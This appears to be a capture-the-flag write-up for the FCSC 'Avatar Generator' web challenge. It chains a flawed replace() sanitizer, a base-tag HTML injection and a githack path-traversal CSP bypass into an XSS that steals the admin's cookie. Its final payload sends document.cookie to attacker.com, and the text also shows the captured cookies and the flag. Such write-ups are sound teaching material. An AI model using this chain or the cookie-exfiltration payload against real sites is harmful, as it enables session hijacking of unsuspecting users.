







# Avatar Generator


# Category

Web


# Author

Worty


# Description

```
Le hasard fait parfois bien les choses.

https://avatar-generator.france-cybersecurity-challenge.fr/
```

# Solution

Even before arriving on the site, you can make a basic enumeration, thanks to different tools. With wapplyzer, we can see if it has detected a particular programming language. Indeed, this is very useful because it directs the type of vulnerabilities that we will be looking for. So wappalyzer detect that this website is using PHP as backend, so there will not be SSTI, protype pollution or things like that.

As this appears to be a client-side challenge, we can check for CSP on header response from the server, but there is no response like that. If we take a look at the source code of the front page, we notice that there is one meta tag which set some CSP. Let's check with csp evaluator if there is a way to bypass them :



So we see that there is a white-list on the host for script tags, but I'll come back to that later.

Let's take a look at the website !



When we arrive on this challenge, we have a simple page that allows us to generate an avatar, and to share it on twitter if we want.

Moreover, we can already notice some informations :
- There is a contact page
- There is an admin page


Soooo let's see the contact page, here we can send two things :
- A URL
- A description

The course of the attack is thus clear, it will be necessary to find a way of xss with parameters which one passes in the URL somewhere on the site to be able to recover the content of the page admin or the cookie of this one if it has one.


With the CSPs sees at the beginning of this solution, you may have notice that there is a rule called "trusted types" on several parameters "default, color and integer". We thus have to dig into the JavaScript files to see which type is define here :

```js
//https://avatar-generator.france-cybersecurity-challenge.fr/assets/js/policies.js
const RE_HEX_COLOR = /^#[0-9A-Fa-f]{6}$/i
const RE_INTEGER = /^\d+$/

function sanitizeHTML(html){
    return html
        .replace(/&/, "&amp;")
        .replace(/</, "&lt;")
        .replace(/>/, "&gt;")
        .replace(/"/, "&quot;")
        .replace(/'/, "&#039;")
}

let sanitizePolicy = TrustedTypes.createPolicy('default', {
    createHTML(html) {
        return sanitizeHTML(html)
    },
    createURL(url) {
        return url
    },
    createScriptURL(url) {
	return url
    }
})

let colorPolicy = TrustedTypes.createPolicy('color', {
    createHTML(color) {
        if (RE_HEX_COLOR.test(color)){
            return color
        }
        throw new TypeError(`Invalid color '${color}'`);
    }
})

let integerPolicy = TrustedTypes.createPolicy('integer', {
    createHTML(integer) {
        if (RE_INTEGER.test(integer)){
            return integer
        }
        throw new TypeError(`Invalid integer '${integer}'`);
    }
})
```

So the type for a color must match a regex which verify that there is hexadecimal characters repeated 6 times, the seed must be an integer and all others parameters are sanitize.. We can perhaps notice one thing, in fact, if the regex didn't match, this will throw an error which will be catch in the main application JavaScript, let's dig into it.

```js
//https://avatar-generator.france-cybersecurity-challenge.fr/assets/js/app.js
function updateSettings(seed, primaryColor, secondaryColor){
    currentSeed = seed
    currentPrimaryColor = primaryColor
    currentSecondaryColor = secondaryColor
    document.getElementById('seed').innerHTML = integerPolicy.createHTML(currentSeed)
    document.getElementById('primaryColor').innerHTML = colorPolicy.createHTML(currentPrimaryColor)
    document.getElementById('secondaryColor').innerHTML = colorPolicy.createHTML(currentSecondaryColor)
    document.getElementById('topColor').style.backgroundColor = currentPrimaryColor
    let notyf = new Notyf()
    notyf.confirm('New avatar generated!')
}

function generateAvatar(seed, primaryColor, secondaryColor){
    let options = new minBlock({
        canvasID: 'avatar',
        color: {
            primary: primaryColor,
            secondary:  secondaryColor
        },
        random: makePRNG(seed)
    })
    updateSettings(seed, options.color.primary, options.color.secondary)
}

document.addEventListener('DOMContentLoaded', function(){
    debug = false
    if (window.location.hash.substr(1) == 'debug'){
        debug = true
    }
    try {
        params = getURLParams()
        let seed = params.get('seed') === null ? randomSeed() : params.get('seed')
        let primaryColor = params.get('primary')
        let secondaryColor = params.get('secondary')
        generateAvatar(seed, primaryColor, secondaryColor)
    }
    catch(error){
        if (debug) {
	    let errorMessage = "Error! An error occured while loading the page... Details: " + error
	    document.querySelector('.container').innerHTML = errorMessage
        }
        else {
            generateRandomAvatar()
        }
    }

    document.getElementById('randomAvatar').addEventListener('click', generateRandomAvatar)
    document.getElementById('shareAvatar').addEventListener('click', shareAvatar)
})
```

We see here in the script that if some url parameters are given (seed, primary & secondary), the application will try to generate an avatar with those, by calling the generateAvatar() function. This function will create options, and update settings to apply them on the page.

Here we found our interesting call, in fact, updateSettings will try to createHTML through the policy that have to be applied (as we've seen before), so if an error is throwed, this will go up to this function, and go up to our event listener that call generateAvatar.

If the anchor debug is set (anchor is for # in URL), the application will print a message with the returned error by the policy. So our entrypoint is here, by injecting an invalid parameter into the seed that contains some HTML tags, we can inject arbitrary HTML into the error page created !

Time for payload creation ! Let's first try a basic injection such as `https://avatar-generator.france-cybersecurity-challenge.fr/index.php?seed=%3Cimage%3E#debug`, the page answered :

```
Error! An error occured while loading the page... Details: TypeError: Invalid integer '<image>'
```

Why the browser isn't interpretated my image tag ? Remember the CSP on default type ? This will apply the sanitize() method, but in JavaScript, the replace() method will replace only one occurence of the character, so we have to put something as `</>` for javascript to replace it, and then we can inject our HTML after : `https://avatar-generator.france-cybersecurity-challenge.fr/index.php?seed=</><image src=''>#debug`



And yes ! it worked ! But there is another problem, CSPs !



Remember the warning from csp evaluator from whitelists for "script-src" ? This will be useful here.

The CSP is: `script-src rawcdn.githack.com/caroso1222/notyf/v2.0.1/dist/`, but what is githack ? Githack is a CDN which allows you to expose files from your github and they will be reachable from a navigator (javascript files, css or whatever you want).

Here there is a bypass for this CSP, in fact, the script-src allows a folder to be reach and load javascript from this one, but is it `rawcdn.githack.com/caroso1222/notyf/v2.0.1/dist/../` a valid folder for this CSP, and in fact... yes !

So we can attack this CSP with a path traversal and expose a javascript file on githack through a github repo that we create, example : `rawcdn.githack.com/caroso1222/notyf/v2.0.1/dist/../../../W0rty/test/<commit identifier>/xss.js`

Annnnnnnd another problem :), innerHTML prevents you from creating dynamic script tags, in fact, if you try to append a script tag, it will work but the javascript contained inside it or loaded from a remote ressource will not be executed...



We have to dig again inside this application to see if we can exploit something else, and yes ! There is a javascript file called "stats.loader.js", which contains the following javascript :

```js
/* Wait for the page to load */

setTimeout(function () {
  var s = document.createElement('script');
  s.setAttribute('src', 'assets/js/stats.js');
  document.body.appendChild(s);
}, 1000);
```

So this will load the file `assets/js/stats.js` 1 second after the page is loaded, this is enough for an exploit :p

Remember our HTMl injection ? The loaded path here is relative to the base url of the current window, i.e `https://avatar-generator.france-cybersecurity-challenge.fr/`, but we can change it using an HTML tag called base, and set as base URL our CSP bypass payload !

`<base href="https://rawcdn.githack.com/caroso1222/notyf/v2.0.1/dist/..%252F..%252F..%252F../W0rty/test/<commit identifier>/">` (remember to double URL encode for the payload to work)

We have our final exploit ! We just have to update our github repo to be like this :
```
assets
    |
    js
    |
     stats.js
```

Annnd we finnaly trigger our xss :D




To summarize, our exploit is built on :
- Bad sanitize method on user input which leads to a bypass
- CSP bypass with path traversal
- Loaded script with relative path after the page is loaded

Our exploit file is pretty simple :
```js
//stats.js
fetch("https://attacker.com/?data="+btoa(document.cookie))
```

If we recalculate the URL from githack, and reload the page, we see in the log of the server :

```
PHPSESSID=a454f6f74e620100d56b7dae50ff0afc
```

So we can politely send this url to the admin : `url exploit`, and wait for him to trigger our payload :

```
admin=d13e3bde2f9a8ff1f3ef377d16a5da5f26840953
```

Let's set this cookie and reach the admin page :




# Flag

FCSC{2d5e4d79789a5a9a68753350b72202478b2f9bf8}